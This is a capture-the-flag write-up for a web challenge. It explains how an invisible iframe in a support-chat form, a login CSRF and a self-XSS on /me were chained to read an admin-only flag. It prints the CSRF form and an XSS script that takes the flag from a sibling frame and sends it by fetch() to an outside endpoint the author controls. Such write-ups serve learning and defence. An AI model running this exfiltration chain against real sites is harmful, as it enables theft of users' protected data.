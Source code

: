 ## Tech Support
This was a **web** challenge with a website where we could seek tech support.  
The flag is located at */flag* but it's accessible only from an **admin account**.  
The first thing we tried was using a simple XSS payload when setting our address on the page found at */me*.  
<img src="me.png" alt="XSS on /me"/>
It worked, **we won**! Right?  
Not really, there's no way to make the admin-bot visit this page. We keep searching...  
<br>
When we request the chat support we have to state a **reason** before entering the captcha.  
The chat itself isn't really useful, but the *reason* stated before is rendered on the page on an invisible iframe!  
<img src="invisible_iframe.png" alt="Invisible iframe in the chat"/>
The bot will visit the page in the iframe, and our payloads will work but... It's in a **different domain** :(  
The **Same-Origin Policy (SOP)** prevents the code running in that page from accessing the flag in the other domain (where the flag is stored). Let's try and find a way in.  
<br>
### Failed attempts
At first I tried an approach where I would try and set a **new** */me* (abusing the fact that the CSRF token was not checked) in the bot account and redirect it towards it. The XSS in */me* would be used in an iframe to **steal** the flag, this is better described later in the writeup.  
This approach didn't work, probably because the bot was disallowed from having a */me* endpoint.  
<br>
After that I tried to log in the admin-bot in my account and steal the flag like I tried before... I got stuck for more time than I would like to admit because I was simply loading */flag* through **my** account 🤦 (The cookies are **shared** between the parent and the iframe)  
Then a friend kindly helped me and made me realise that what I was doing made no sense.  
<br>
### CSRF+XSS done right
After the pointers given to me we created a payload with two iframes.  
One iframe contained the */flag* endpoint, the other would log in **my** account and visit the */me* endpoint triggering my **Javascript payload**.  
The payload would then take the flag from the other iframe (using [iframe-to-inframe](https://www.dyn-web.com/tutorials/iframes/refs/) interaction) given that */me* and */flag* share the same **origin**.  
Between this actions there has to be some waiting period for the resources to load, or bad things could happen because of shared cookie jars.
<br>
The CSRF code we uploaded is the following  
```
<iframe id="flag_frame" src="https://typeselfsub.web.ctfcompetition.com/flag"></iframe>

        <form id="evil" action="https://typeselfsub.web.ctfcompetition.com/login" target="me_frame" method="POST">
            <input type="text" id="username" name="username" value="sparrrgh">
            <input id="password" name="password" value="REDACTED">
            <input type="hidden" name="csrf" value="">
        </form>

        <script>
            setTimeout(function(){
            	<!-- Log in my account -->
                evil.submit();
        
                setTimeout(function(){
                    <!-- Visit my page containing the XSS payload -->
                    me_frame.src = 'https://typeselfsub.web.ctfcompetition.com/me';
                }, 3000);
            }, 3000);
        </script>
        
        <iframe name="me_frame" id="me_frame"></iframe>
```
While the XSS payload used in the */me* page is simply taking the flag from the document and sending it to an endpoint we control  
```<script>
        let flagd = parent.frames[0].window.document.getElementById('flag').innerText;
        fetch('https://myendpoint.com?flag='.concat(flagd));
    </script>
```
Notice how `frames[0]` is used, that's because accessing the parent document in other ways would break **SOP** rules, since the origin in the iframe and the one in the page are different!  
<br>
The last thing needed was to embed an iframe (*another one*) as a *reason* in the request for chat containing the page with our **CSRF payload** thus starting the chain of payloads!  
And there it was, the flag!  
`CTF{self-xss?-that-isn't-a-problem-right...}`
<img src="flag.png" alt="Flag!"/>
